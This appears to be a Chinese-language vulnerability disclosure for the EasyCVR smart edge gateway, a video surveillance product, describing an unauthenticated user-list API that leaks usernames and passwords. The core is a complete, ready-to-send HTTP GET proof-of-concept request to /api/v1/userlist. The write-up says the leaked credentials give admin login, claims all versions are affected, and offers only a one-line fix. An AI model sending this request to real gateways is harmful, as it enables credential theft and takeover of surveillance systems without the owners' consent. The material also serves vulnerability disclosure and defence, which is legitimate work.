




## 产品简介

EasyCVR智能边缘网关是TSINGSEE青犀视频旗下软硬一体的一款产品，可提供多协议（RTSP/RTMP/GB28181/海康Ehome/大华、海康SDK等）的设备视频接入、采集、AI智能检测、处理、分发等服务。通过对视频监控场景中的人、车、物进行AI检测与抓拍，对异常情况进行智能提醒和通知，可广泛应用于安防监控、智能检测、通行核验等场景。

## 漏洞简介

EasyCVR智能边缘网关 userlist 存在信息泄漏漏洞，攻击者可直接登陆管理后台。

## 影响版本

全版本

## 漏洞验证



漏洞POC

```http
GET /api/v1/userlist?pageindex=0&pagesize=10 HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: token=WfP815MSR
Connection: close
```

发送POC，获得用户名密码。



获得的账号密码登陆，获得token

登陆后台



批量POC验证


## 修复建议

限制接口访问权限

